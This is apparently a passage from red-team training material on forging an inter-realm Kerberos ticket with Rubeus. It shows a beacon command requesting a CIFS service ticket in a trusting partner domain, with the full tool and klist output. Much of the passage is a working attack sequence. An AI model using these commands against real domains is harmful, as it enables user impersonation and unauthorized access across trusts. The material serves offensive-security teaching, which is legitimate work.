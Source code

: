 Where:

* `/user` is the username to impersonate.
* `/domain` is the FQDN of the trusted domain.
* `/sid` is the SID of the trusted domain.&#x20;
* `/id` is the RID of the impersonated user.
* `/groups` are the RIDs of the impersonated user's domain groups.  _Domain Users_ is 513, _Workstation Admins_ is 1106, and _Partner Jump Users_ is 6102.
* `/service` is the krbtgt service of the trusting domain.
* `/rc4` is the inter-realm key.

\
When forging tickets offline, make sure to get the user's group membership correct.  Don't rely on the default groups that Rubeus uses.  Alternatively, forge them 'online' with Rubeus' `/ldap` parameter.

This forged inter-realm TGT is then used to request service tickets from the trusting domain via Rubeus' `asktgs` command.

```batch
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /ticket:doIFM[...snip...]mNvbQ== /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/par-jmp-1.partner.com'
[*] Using domain controller: par-dc-1.partner.com (10.10.122.1)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFW[...snip...]uY29t

  ServiceName              :  cifs/par-jmp-1.partner.com
  ServiceRealm             :  PARTNER.COM
  UserName                 :  pchilds (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  18/03/2025 12:03:09
  EndTime                  :  18/03/2025 21:50:59
  RenewTill                :  25/03/2025 11:50:59
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Jby9/S/PknVnM2JdzmeWee0nRO2icW3YLPEA3UULKfA=
```

Where:

* `/service` is the target service in the trusting domain.
* `/dc` is a domain controller in the trusting domain.
* `/ticket` is the inter-realm TGT.

```batch
beacon> run klist

Current LogonId is 0:0x1649ee

Cached Tickets: (1)

#0>	Client: pchilds @ CONTOSO.COM
	Server: cifs/par-jmp-1.partner.com @ PARTNER.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
	Start Time: 3/18/2025 12:03:09 (local)
	End Time:   3/18/2025 21:50:59 (local)
	Renew Time: 3/25/2025 11:50:59 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
```